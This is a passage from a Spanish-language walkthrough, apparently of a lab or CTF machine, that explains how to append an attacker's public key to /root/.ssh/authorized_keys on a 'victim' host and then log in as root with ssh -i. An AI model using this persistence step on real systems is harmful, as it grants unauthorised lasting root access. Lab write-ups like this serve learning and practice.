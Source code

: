 5. Añade la clave pública copiada al archivo `authorized_keys`:
   ```bash
   echo 'TU_CLAVE_PUBLICA' >> /root/.ssh/authorized_keys
   ```
   Reemplaza `TU_CLAVE_PUBLICA` con el contenido que copiaste del archivo `id_rsa.pub`.

6. Asegúrate de que los permisos del archivo `authorized_keys` sean correctos:
   ```bash
   chmod 600 /root/.ssh/authorized_keys
   ```

### 4. Conectarse a la máquina objetivo desde la máquina atacante

7. En la máquina atacante, asegúrate de estar en el directorio donde se encuentra tu clave privada (`id_rsa`):
   ```bash
   cd ~/.ssh
   ```

8. Conéctate a la máquina objetivo usando SSH y la clave privada:
   ```bash
   ssh -i id_rsa root@172.17.0.2
   ```
   Reemplaza `172.17.0.2` con la dirección IP de tu máquina objetivo.

Siguiendo estos pasos, deberías poder configurar el acceso SSH utilizando la clave pública en el archivo `authorized_keys`

De esta forma obtenemos acceso a la maquina victima por ssh sin proporcionar contraseña.
_____
![](attachment/a5a6baf49899365ccfae4a5c152d6b62.png)
